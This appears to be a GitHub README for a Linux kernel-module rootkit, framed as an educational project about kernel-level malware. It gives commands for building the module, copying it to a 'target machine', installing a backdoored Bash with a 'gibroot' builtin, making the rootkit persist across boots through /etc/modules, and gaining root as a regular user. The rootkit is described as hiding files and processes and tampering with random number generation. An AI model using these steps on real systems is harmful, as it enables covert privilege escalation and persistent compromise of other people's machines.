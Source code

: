 
# linux rootkit

this is a kernel module-based rootkit for linux that supports privelige escalation, compromising random number generation, file and directory hiding, and process injection.

this is a project to allow participants to better understand the inner workings of malware at the kernel level and to gain a deeper understanding of the constraints and possibilities of actions in the kernel space.


## Installation

step 1: open up the Makefile and set KDIR to the path to the linux source tree. this should be configured identically to the target machine's kernel.

```
KDIR = ~/learning/linux #replace with appropriate path
```
step 2: run the Makefile to compile the kernel module, and copy rootkit_module.ko over to the target machine
```
Make
```

step 3: copy over bash-4.3 and bdoor_common.h to the target machine, and compile Bash by running configure and make (to have this work with different versions of Bash, go int bash-4.3/builtins, copy over gibroot.def, and change Makefile.in to conform with https://stackoverflow.com/questions/10063417/how-do-i-add-an-internal-command-to-bash)
```
cd bash-4.3
./configure
make
```

(extra) step 4: to make the rootkit persistant,  while root in the target machine, move rootkit_module.ko into the folder specified by /lib/modules/$(uname -r)/, and add the line "rootkit_module" to the bottom of /etc/modules. this make kmod load the module upon boot.
```
cp rootkit_module.ko /lib/modules/$(uname -r)/
echo "rootkit_module" >> /etc/modules
```


## Run
to load the module, while root run
```
insmod rootkit_module.ko
```
the module can also be removed with
```
rmmod rootkit_module.ko
```

now, as a regular user run the compiled bash executable. this will grant you access to the new gibroot builtin
```
cd bash-4.3
./bash
```

## API Reference

to escalate shell privelige to root, use
```
gibroot root
```

UNDER CONSTRUCTION

